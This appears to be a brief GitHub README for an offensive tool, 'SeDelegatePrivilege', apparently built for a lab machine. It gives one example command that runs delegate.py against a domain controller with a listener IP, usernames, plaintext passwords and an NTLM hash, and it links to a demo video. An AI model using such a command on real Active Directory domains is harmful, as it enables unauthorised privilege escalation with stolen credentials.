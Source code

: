 # SeDelegatePrivilege

May need to run twice

ex: python delegate.py -l 10.8.0.45 -r 10.10.113.36 -c realuser -p TestPassword321 -d delegate.vl -dc dc1.delegate.vl -u N.Thompson -P KALEB_2341 -N C7BE3644A2EB37C9BB1F248E9E0B9AFC

https://github.com/overgrowncarrot1/SeDelegatePrivilege/assets/78485709/5183a919-e1a6-40cd-acf5-82bac015e79e

